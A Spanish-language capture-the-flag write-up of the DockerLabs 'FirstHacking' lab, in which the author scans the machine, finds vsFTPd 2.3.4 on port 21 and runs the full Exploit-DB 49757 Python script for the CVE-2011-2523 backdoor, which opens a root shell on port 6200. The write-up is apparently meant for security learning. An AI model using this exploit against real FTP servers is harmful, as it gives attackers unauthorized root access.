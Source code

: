 ```yaml
---
title: CTF-DockerLabs-FirstHacking
published: true
---
```


## WriteUps maquina FirstHacking de DockerLabs

---
tags:
  - CTF
  - estado/completado
  - plataforma: [DockerLabs]
  - dificultad: Muy fácil
  - autor: [ElPinguinoDeMario]

# Datos

[!INFO] FirstHacking
>  **Nombre:** FirstHacking
>  **SO:** Linux
>  **Dificultad:** Muy fácil
>  **Enlace:** [Dockerlabs](https://dockerlabs.es/)

[!TODO] Objetivo
> 🚩Ingresar a la maquina como algún usuario.
> 🚩Elevar privilegios una vez obtenido el acceso.

El primer paso consiste en iniciar la máquina, lo cual es tan sencillo como ejecutar el siguiente comando después de haber descargado la maquina:

```bash
└─$ sudo bash auto_deploy.sh firsthacking.tar
```

# Reconocimiento

> Una vez iniciada la maquina, el mismo script de inicio me da la dirección IP a lo cual procedo a realizar un escaneo de puertos de la maquina y el resultado es el siguiente:

```bash
└─# nmap 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-22 23:56 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000040s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.22 seconds
```

Esta maquina muestra el `puerto 21` abierto que corresponde al servicio `ftp`, es un puerto diferente al resto de maquinas de la categoría _muy fácil_, lo primero que intento es ver si puedo conectarme con el usuario `anonymous`

![FTPFirstHacking.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/FTPFirstHacking.png)

El intento es fallido, sin embargo esto me ha dado la versión del servicio, el cual es: `vsFTPd 2.3.4`, ahora busco un poco de información en Google, quizás pueda encontrar algún exploit, alguna vulnerabilidad para esta versión.

Y en efecto, el segundo resultado me muestra un exploit en: [www.exploit-db.com](https://www.exploit-db.com/) a lo que procedo a chequear y obtengo el siguiente código, identificado con el código: `49757`

```python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
            
```

Así que creo mi archivo en python llamado: `49757.py` le doy su permiso de ejecución con: `chmod +x 49757.py` y lo ejecuto sin más para ver que me mostraba.

Y lo primero que me indica es que solo debo indicarle la dirección IP del objetivo:

`49757.py: error: the following arguments are required: host`

Procedo con ello y listo, de todas las maquinas esta fue la más fácil ya que tampoco existe otro usuario y adicional somos root dentro de la maquina.

# pwned

![FirstHackingPWNED.png](https://raw.githubusercontent.com/4k4m1m3/blog/main/_posts/adjuntos/

# Comandos

[!IMPORTANT] Resumen de comandos utilizados
> `sudo bash auto_deploy.sh vacaciones.tar`
> `nmap 172.17.0.2`
> `ftp 172.17.0.2`
> `python 49757.py 172.17.0.2`


```
¡Que la fuerza del hacking ético nos acompañe! :)
```

|   |
|:--|
|   |